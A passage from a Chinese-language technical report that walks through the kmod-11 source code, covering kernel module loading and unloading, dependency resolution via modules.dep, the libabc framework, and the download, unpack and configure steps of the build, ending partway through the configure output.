init\_module ,在内核空间这个系统调用的实现主要是依靠 sys\_init\_module
函数完成的。

\begin{figure}[htbp]
\centering

\includegraphics{./figures/user_sys_module.jpg}
\caption{内核模块的加载和卸载的内存空间调用关系}
\end{figure}

操作系统在初始化时,调用 static
LIST\_HEAD(modules)建立了一个空链表,之后,每装入一个内核模块,即创建一个
struct module 结构, 并把它链入 modules 这个全局的链表中。

从操作系统内核的角度来说,它提供的用户服务,都是通过系统调用来实现的。实际上,我们在调用
module\_init 和 module\_exit
时,都是首先需要通过这两个系统调用来实现的:sys\_init\_module(),
sys\_delete\_module()。

内核模块的加载,本质上是一个模块被内核静态链接的过程,当模块被加载时,模块中声明的任何全局符号都成为内核符号表的一部分。
什么是内核符号表呢?
内核符号表是内核中所有允许被公开访问的变量和函数,可以通过以文本方式读取
/proc/kallsyms 文件获得。

sys\_init\_module 函数可以分为以下关键步骤:

\begin{itemize}
\item
  确保有插入和删除模块不受限制的权利,并且模块没有被禁止插入或删除\\
\item
  调用内核空间的 load\_module 函数,然后通过 copy\_from\_user 把 ELF
  内容读入到内核临时空间做一个映像分析
\item
  对加载的 ELF 映像进行分析,确定要加载哪些段进入到真正代码空间
\item
  为要加载的每一个段进行重新定位,最终完成加载,插入到内核中,成为内核符号表的一部分,并创建相关的sysfs文件
\end{itemize}
参考代码: linux-x.x.xx/kernel/module.c

\url{http://blog.csdn.net/ganggexiongqi/article/details/6823960}

\begin{figure}[htbp]
\centering

\includegraphics{./figures/sys_init_module.jpg}
\caption{内核模块在内核空间的加载流程}
\end{figure}

在 kmod-11 项目中,在 testsuite/ 目录下有一个 init\_module.c
,里面也实现了一个 init\_module 的函数,
它的功能主要是在用户空间模拟内核加载,来进行调试和分析,并不是真正的加载模块。

从下面的代码分析可以看出,这个``假的''init\_module 实际上是通过
create\_sysfs\_files 创建系统文件来表明模块已经完成插入工作。

{\begin{shaded}\begin{verbatim}
long init_module(void *mem, unsigned long len, const char *args)
{
    kmod_elf *elf = kmod_elf_new(mem, len);

    err = kmod_elf_get_section(elf, ".gnu.linkonce.this_module", &buf, &bufsize);
    kmod_elf_unref(elf);
    mod = find_module(modules, modname);
    if(mod != NULL)
    { 
    } else if (module_is_inkernel(modname))
    {
    } else  // 通过创建文件的方法来表示当前模块已经插入
        create_sysfs_files(modname);

    return err;
}
\end{verbatim}\end{shaded}}
\subsection{delete\_module() 核心代码分析}

在 kmod\_module\_remove\_module 函数中调用的 delete\_module
系统调用,将会在进入到内核之后完成真正的卸载操作。 用户空间的系统调用叫
delete\_module ,在内核空间这个系统调用的实现主要是依靠
sys\_delete\_module 函数完成的。

内核模块的加载,和加载过程基本相反,sys\_delete\_module
函数可以分为以下关键步骤:

\begin{itemize}
\item
  首先检查模块的依赖关系,看是否还有其他模块依赖于这个模块,如果没有则可以卸载这个模块
\item
  然后调用模块的 exit 函数,最后调用内核空间的 free\_module 函数
\item
  在 free\_module
  函数中,开始完成对该模块在系统文件、模块列表中的清除工作
\item
  释放为该模块分配的各种内存,最终完成卸载该模块的操作
\end{itemize}
\begin{figure}[htbp]
\centering

\includegraphics{./figures/sys_delete_module.jpg}
\caption{内核模块在内核空间的卸载流程}
\end{figure}

在 kmod-11 项目中,在 testsuite/ 目录下有一个 delete\_module.c
,里面也实现了一个 delete\_module 的函数,
同样的,它也并不是真正的卸载模块,仅仅只是查找一下当前模块,并不执行实际的删除操作。

{\begin{shaded}\begin{verbatim}
long delete_module(void *mem, int flags)
{
    struct mod *mod;

    mod = find_module(modules, modname);

    return mod->ret;
}
\end{verbatim}\end{shaded}}
\begin{itemize}
\item
  参考文档
  \begin{itemize}
  \item
    \url{https://www.ibm.com/developerworks/cn/linux/l-lkm/}
  \item
    \url{http://hi.baidu.com/youngky2008/item/8e6a51fe76b45551c9f337a9}
  \end{itemize}
\end{itemize}
\subsection{kmod\_module\_unref() 核心代码分析}

该函数是 kmod\_module\_new 操作的反操作,主要功能是释放 new
函数中分配的内存空间。 通过调用 kmod\_pool\_del\_module 在 kmod\_pool
池中删除该模块的hash键值。 同时减少对该模块的引用计数
--mod-\textgreater{}refcount;
如果减1后计数为0,则需要彻底将该模块从内核中清除。

首先,把它从 kmod\_pool 中删除
kmod\_pool\_del\_module(mod-\textgreater{}ctx, mod,
mod-\textgreater{}hashkey);
对于该模块所依赖的模块列表中的所有模块的引用计数也需要进行减1操作
kmod\_module\_unref\_list(mod-\textgreater{}dep)。 释放该模块对应的
kmod\_file 也就是 kmod\_file\_unref(mod-\textgreater{}file);
释放该模块对应的 kmod\_ctx 也就是 kmod\_unref(mod-\textgreater{}ctx);

\begin{figure}[htbp]
\centering

\includegraphics{./figures/kmod_module_unref.jpg}
\caption{kmod\_module\_unref 调用层次图}
\end{figure}

{\begin{shaded}\begin{verbatim}
kmod_module *kmod_module_unref(kmod_module *mod)
{
    // 减少模块的引用计数,如果已经减到0,则卸载该模块
    --mod->refcount;

    //  在 kmod 池中通过 hash_add 删除一个键值为 key 的模块
    kmod_pool_del_module(mod->ctx, mod, mod->hashkey);

    // 删除 kmod list 链表中的每一个节点
    kmod_module_unref_list(mod->dep);

    // 释放文件资源,关闭当前文件描述符
    kmod_file_unref(mod->file);

    // 释放 kmod 库上下文
    kmod_unref(mod->ctx);

    return NULL;
}
\end{verbatim}\end{shaded}}
\subsection{kmod\_module\_new\_from\_loaded 核心代码分析}

该函数是实现 lsmod 命令的重要函数,通过读取 /proc/modules
文件的每一行,构建一个 kmod\_list 列表,然后给 *list
赋值作为传出参数返回。 通过 cat 命令,查看 /proc/modules
文件的内容,格式不是很整齐,排列参差不齐。通过 lsmod
命令输出的信息,格式对齐,看起来信息也比较清晰。

{\begin{shaded}\begin{verbatim}
KMOD_EXPORT int kmod_module_new_from_loaded(struct kmod_ctx *ctx,
                        struct kmod_list **list)
{
    struct kmod_list *l = NULL;
    FILE *fp;
    char line[4096];

    // 打开 /proc/modules 系统内存文件
    fp = fopen("/proc/modules", "re");

    // 读取1行进行分析
    while (fgets(line, sizeof(line), fp)) {
        struct kmod_module *m;
        struct kmod_list *node;
        int err;

        // 以空格和\t(tab键)作为间隔token,依次读取每个字段
        char *saveptr, *name = strtok_r(line, " \t", &saveptr);

        // 通过读的名字进行创建 kmod_module m
        err = kmod_module_new_from_name(ctx, name, &m);

        // 将创建的 m 插入到 kmod_list l 中
        node = kmod_list_append(l, m);
        if (node)
            l = node;
        else {
            ERR(ctx, "out of memory\n");
            kmod_module_unref(m);
        }
    }

    // 关闭文件fp指针
    fclose(fp);

    // 将 kmod_list l 作为链表头返回
    *list = l;

    return 0;
}
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./figures/kmod_module_new_from_loaded.jpg}
\caption{kmod\_module\_new\_from\_loaded 调用层次图}
\end{figure}

\subsection{kmod\_module\_get\_info 核心代码分析}

该函数的主要功能是 获取当前模块 mod 的 info
信息(.modinfo字段),组装成一个 list 返回。

举例: \$ ./kmod-11/tools/modinfo ./hello-module/hello.ko

{\begin{shaded}\begin{verbatim}
key = license=GPL
key = description=module example 
key = author=AKAEDU
key = srcversion=49A755BEBF4FF5E99BDBD01
key = depends=
key = vermagic=3.2.0-29-generic-pae SMP mod_unload modversions 686 


struct kmod_module_info {
    char *key;
    char value[];
};

KMOD_EXPORT int kmod_module_get_info(const struct kmod_module *mod, struct kmod_list **list)
{
    char **strings;

    // 返回当前模块 mod 的 kmod_file 指针
    elf = kmod_module_get_elf(mod);

    // 获得名为 .modinfo 字段的字符串数组的 string 并分配空间用来存放,返回值为string数组元素个数
    count = kmod_elf_get_strings(elf, ".modinfo", &strings);

    for (i = 0; i < count; i++) {
        struct kmod_module_info *info;

        // 获得 string 数组中的每一个字符串指针,赋值给 key
        key = strings[i];
        printf("key = %s\n", key);
        value = strchr(key, '=');

        // 生成 kmod_module_info 结构体,将传入参数填入,返回结构体指针
        info = kmod_module_info_new(key, keylen, value, valuelen);

        // 在当前 kmod list 的后面,新增一个节点 node,数据为 info 指针
        n = kmod_list_append(*list, info);  
    }

    // 释放 string 数组
    free(strings);
}
\end{verbatim}\end{shaded}}
\subsection{kmod\_module\_new\_from\_lookup 核心代码分析}

该函数主要用于在 modprobe 中插入模块前所使用,根据用户给出的 alias
来完成构建 kmod\_list 的操作,最后给 *list 赋值作为传出参数返回。
完成构建需要查找名为 alias
的全部模块,一旦在某个地方找到,就不再继续寻找而是创建并将模块保存在 *list
中。

该函数中,模块查找的顺序是

\begin{itemize}
\item
  在配置文件中 (/etc/modprobe.d/modules.conf)的 alias
  是最先寻找的,它的设置将会覆盖其他地方的设置。
\item
  接下来的顺序是,在 modules.dep -\textgreater{} modules.symbols
  -\textgreater{} commands -\textgreater{} modules.alias -\textgreater{}
  modules.buildin
\end{itemize}
下面是这个函数实现的核心代码

{\begin{shaded}\begin{verbatim}
KMOD_EXPORT int kmod_module_new_from_lookup(struct kmod_ctx *ctx,
                        const char *given_alias,
                        struct kmod_list **list)
{
    int err;
    char alias[PATH_MAX];
    if (alias_normalize(given_alias, alias, NULL) < 0) {
        DBG(ctx, "invalid alias: %s\n", given_alias);
        return -EINVAL;
    }

    /* Aliases from config file override all the others */
    err = kmod_lookup_alias_from_config(ctx, alias, list);

    err = kmod_lookup_alias_from_moddep_file(ctx, alias, list);
    err = kmod_lookup_alias_from_symbols_file(ctx, alias, list);
    err = kmod_lookup_alias_from_commands(ctx, alias, list);
    err = kmod_lookup_alias_from_aliases_file(ctx, alias, list);
    err = kmod_lookup_alias_from_builtin_file(ctx, alias, list);

    return err;
}
\end{verbatim}\end{shaded}}
\subsection{kmod\_module\_probe\_insert\_module 核心代码分析}

该函数主要用于在 modprobe 时真正完成 probe insert
操作,这个函数最终还是要调用 kmod\_module\_insert\_module
函数来实现插入操作。 所不同的是,在插入之前需要生成一个 probe\_list
,这个链表是用来标明 probe
一共需要插入的模块有多少,而且保证按照依赖关系从弱到强的顺序排列。

其中 kmod\_module\_get\_probe\_list 是整个 modprobe
操作中最难部分,体现为需要从 depmod 命令生成的 modules.dep
文件中,读取该模块的依赖关系列表。 并由此生成一个 list ,用于之后通过这个
list 来依次插入每一个所需要的内核模块。

{\begin{shaded}\begin{verbatim}
int kmod_module_probe_insert_module(mod, flags, extra_options, run_install)
{
    // 从 modules.dep 文件中,读取该模块的依赖关系列表       
    err = kmod_module_get_probe_list(mod, !!(flags & KMOD_PROBE_IGNORE_COMMAND), &list);

    kmod_list_foreach(l, list) 
    {
        struct kmod_module *m = l->data;
        // 对于链表中的每一个module,依次调用 insert 加载
        err = kmod_module_insert_module(m, flags, options);
    }
}
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./figures/kmod_module_probe_insert_module.jpg}
\caption{kmod\_module\_probe\_insert\_module 调用层次图}
\end{figure}

这个 kmod\_module\_get\_probe\_list
函数的调用流程比较复杂,下面这个图是跟踪函数执行的关键调用,最后到底层发现是通过
kmod\_module\_parse\_depline 来解析 modules.dep
文件中的包含依赖关系的那行(字符串),然后分离出当前模块依赖的每一个模块的path,然后仍然是通过直接最核心
kmod\_module\_new\_from\_path 函数来完成所有涉及到的模块加载。

{\begin{shaded}\begin{verbatim}
-> kmod_module_get_probe_list
    -> __kmod_module_get_probe_list
        -> kmod_module_get_dependencies
            ->  module_get_dependencies_noref
                -> kmod_module_parse_depline
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./figures/kmod_module_get_probe_list.jpg}
\caption{kmod\_module\_get\_probe\_list 调用层次图}
\end{figure}

\subsubsection{kmod\_module\_get\_dependencies 核心代码分析}

{\begin{shaded}\begin{verbatim}
kmod_list *kmod_module_get_dependencies(struct kmod_module *mod)
{
    // 找到当前 mod 的依赖关系模块,添加到 mod->dep 的 kmod_list 指针上去
    module_get_dependencies_noref(mod);

    // 遍历整个 mod->dep 链表,找出每一个节点模块
    kmod_list_foreach(l, mod->dep)
    {
        // 调用 kmod_list_append 把其中的字符串,添加到一个新的链表上
        l_new = kmod_list_append(list_new, kmod_module_ref(l->data));
        list_new = l_new;
    }

    return list_new;
}
\end{verbatim}\end{shaded}}
\subsubsection{module\_get\_dependencies\_noref 核心代码分析}

找到 mod-\textgreater{}name 所在的行,得到该模块的依赖关系字符串到 line
中,然后对这个 line 进行 parse 操作,获得每一个依赖模块逐一加载。

举例: \$ ./kmod-11/tools/modprobe nfs

{\begin{shaded}\begin{verbatim}
line = kernel/fs/nfs/nfs.ko: kernel/fs/nfs_common/nfs_acl.ko kernel/net/sunrpc/auth_gss/auth_rpcgss.ko kernel/fs/fscache/fscache.ko kernel/fs/lockd/lockd.ko kernel/net/sunrpc/sunrpc.ko

kmod_list *module_get_dependencies_noref(struct kmod_module *mod)
{
    // 通过模块名 mod->name 找到表示当前模块 mod 依赖关系的字符串 line
    char *line = kmod_search_moddep(mod->ctx, mod->name);

    // 分析字符串 line,建立一个关于依赖关系的 kmod_list,赋值给 mod->dep
    kmod_module_parse_depline(mod, line);

    return mod->dep;
}
\end{verbatim}\end{shaded}}
\subsubsection{kmod\_search\_moddep 核心代码分析}

该函数是实现从模块名字到模块依赖关系字符串的转换,简单来说就是实现 name
-\textgreater{} line 的转换。

举例 modprobe nfs 命令中,name = nfs,找到的字符串就是

{\begin{shaded}\begin{verbatim}
kernel/fs/nfs/nfs.ko: kernel/fs/nfs_common/nfs_acl.ko kernel/net/sunrpc/auth_gss/auth_rpcgss.ko kernel/fs/fscache/fscache.ko kernel/fs/lockd/lockd.ko kernel/net/sunrpc/sunrpc.ko

char *kmod_search_moddep(struct kmod_ctx *ctx, const char *name)
{
    // 通过 index 模块的索引,找到 名字为 name 的字符串行
    return index_mm_search(ctx->indexes[KMOD_INDEX_MODULES_DEP], name);

    DBG(ctx, "file=%s modname=%s\n", fn, name);

    idx = index_file_open(fn);
    line = index_search(idx, name);
    index_file_close(idx);

    return line;
}
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./figures/kmod_search_moddep.jpg}
\caption{kmod\_search\_moddep 调用层次图}
\end{figure}

\subsubsection{kmod\_module\_parse\_depline 核心代码分析}

从 line
中根据冒号作为间隔符,冒号左边是要加载的模块,冒号右边是依赖关系列表,列表中的各个模块是以
path 的方式存储的,两个之间用空格或者 \t 间隔, 因此需要通过 strtok
函数来依次获得每一个模块的字符串,通过这个字符串 path,调用
kmod\_module\_new\_from\_path 来得到一个 kmod\_list。

\begin{figure}[htbp]
\centering

\includegraphics{./figures/kmod_module_parse_depline.jpg}
\caption{kmod\_module\_parse\_depline 调用层次图}
\end{figure}

举例:

{\begin{shaded}\begin{verbatim}
$ ./kmod-11/tools/modprobe nfs

line = kernel/fs/nfs/nfs.ko: kernel/fs/nfs_common/nfs_acl.ko kernel/net/sunrpc/auth_gss/auth_rpcgss.ko kernel/fs/fscache/fscache.ko kernel/fs/lockd/lockd.ko kernel/net/sunrpc/sunrpc.ko

p = kernel/fs/nfs_common/nfs_acl.ko

p = kernel/net/sunrpc/auth_gss/auth_rpcgss.ko

p = kernel/fs/fscache/fscache.ko

p = kernel/fs/lockd/lockd.ko

p = kernel/net/sunrpc/sunrpc.ko

int kmod_module_parse_depline(struct kmod_module *mod, char *line)
{
    p = strchr(line, ':');

    for (p = strtok_r(p, " \t", &saveptr); p != NULL;
         p = strtok_r(NULL, " \t", &saveptr)) 
    {
        path = path_join(p, dirnamelen, buf);

        err = kmod_module_new_from_path(ctx, path, &depmod);
        list = kmod_list_prepend(list, depmod);
        n++;
    }

    mod->dep = list;
    mod->n_dep = n;

    return n;
}
\end{verbatim}\end{shaded}}
\section{项目详细分析总结}

kmod-11 的项目分析,对于我们未来设计类似的软件架构,有如下启示:

\subsection{libabc 的库项目框架}

kmod-11 采用了 libabc
的库项目框架,这个项目是一个开源项目,项目的参考代码可以在 github 上找到。

https://github.com/bitbckt/libabc

https://git.kernel.org/cgit/linux/kernel/git/kay/libabc.git

libabc 项目发源于2002年,在2011年发布了 version
4。目前最近一次提交是2013.3.11。

整个项目的框架和目前我们所分析的,有很多类似的地方。特别是 ctx
环境上下文这个数据结构的引入。

我们可以看一个来自 libabc 中的简单的例子 test-libabc.c。

{\begin{shaded}\begin{verbatim}
#include <libabc.h>

int main(int argc, char *argv[])
{
    struct abc_ctx *ctx;
    struct abc_thing *thing = NULL;
    int err;

    err = abc_new(&ctx);
    if (err < 0)
        exit(EXIT_FAILURE);

    printf("version %s\n", VERSION);

    err = abc_thing_new_from_string(ctx, "foo", &thing);
    if (err >= 0)
        abc_thing_unref(thing);

    abc_unref(ctx);
    return EXIT_SUCCESS;
}
\end{verbatim}\end{shaded}}
从这个例子可以看出,整个 kmod 项目的框架就是建立在 libabc
的基础上,其函数命名和设计思路,都是借鉴了 libabc 开源项目的框架模型。

\subsection{基础类的数据结构和算法}

在 kmod-11
项目中,6个基础类的子模块,这些模块和算法都是写一个大型项目所必须具备的知识储备。

\begin{itemize}
\item
  hash 哈希表模块
\item
  list 链表模块
\item
  array 动态数组模块
\item
  index\_mm 索引查找模块
\item
  log 日志记录模块
\item
  elf 文件分析模块
\end{itemize}
这几个模块并非是 kmod
项目所独有的,完全可以作为未来开发项目的基础类库得以复用。

\subsection{系统调用模拟层的设计理念}

因为内核模块会经常需要和内核打交道,无论插入和删除,一不小心可能会造成内核崩溃,只能靠
reset
重启来进行调试。因此引入关于系统调用函数的应用层实现,就可以在用户空间模拟系统调用后发生的行为,进行调试和验证。

系统调用模拟层的实现,需要依靠链接器来完成,也就是当 init\_module
这个系统调用和 init\_module.c
中的函数进行链接的时候,就通过调用函数实现。如果没有和 init\_module.c
相链接,则通过链接 glibc 的系统调用来实现。

我们可以用下面这张图来表明这种模型的架构。

\begin{figure}[htbp]
\centering

\includegraphics{./figures/sys_sim.jpg}
\caption{系统调用模拟层设计架构图}
\end{figure}

\chapter{Kmod-11 项目运行时调试图}

\section{编译安装运行调试图}

\subsection{wget下载源码包}

{\begin{shaded}\begin{verbatim}
$ wget https://www.kernel.org/pub/linux/utils/kernel/kmod/kmod-11.tar.gz
--2013-06-18 01:08:47--  https://www.kernel.org/pub/linux/utils/kernel/kmod/kmod-11.tar.gz
Resolving www.kernel.org (www.kernel.org)... 149.20.4.69, 198.145.20.140
Connecting to www.kernel.org (www.kernel.org)|149.20.4.69|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3458574 (3.3M) [application/x-gzip]
Saving to: `kmod-11.tar.gz'

100%[======================================>] 3,458,574    795K/s   in 5.3s    

2013-06-18 01:08:54 (641 KB/s) - `kmod-11.tar.gz' saved [3458574/3458574]
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./pictures/1-1-wget.png}
\caption{wget下载源码包}
\end{figure}

\subsection{tar解压源码包}

{\begin{shaded}\begin{verbatim}
$ tar zxf kmod-11.tar.gz 
$ cd kmod-11
$ ls
aclocal.m4   configure     libkmod      Makefile.in  README     tools
build-aux    configure.ac  m4           man          testsuite
config.h.in  COPYING       Makefile.am  NEWS         TODO
$ 
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./pictures/1-2-tar.png}
\caption{tar解压源码包}
\end{figure}

\subsection{configure 配置项目源码}

{\begin{shaded}\begin{verbatim}
$ ./configure CFLAGS="-g -O2" --prefix=/usr --sysconfdir=/etc --libdir=/usr/lib
checking for a BSD-compatible install... /usr/bin/install -c
checking whether build environment is sane... yes
checking for a thread-safe mkdir -p... /bin/mkdir -p
checking for gawk... no
checking for mawk... mawk
checking whether make sets $(MAKE)... yes
checking whether make supports nested variables... yes
checking how to create a pax tar archive... gnutar
checking for style of include used by make... GNU
checking for gcc... gcc
checking whether the C compiler works... yes
checking for C compiler default output file name... a.out
checking for suffix of executables... 
checking whether we are cross compiling... no
checking for suffix of object files... o
checking whether we are using the GNU C compiler... yes
checking whether gcc accepts -g... yes
checking for gcc option to accept ISO C89... none needed
checking dependency style of gcc... gcc3
...
kmod 11
======

prefix:         /usr
sysconfdir:     /etc
libdir:         /usr/lib
rootlibdir:     /usr/lib
includedir:     ${prefix}/include
bindir:         ${exec_prefix}/bin

compiler:       gcc -std=gnu99
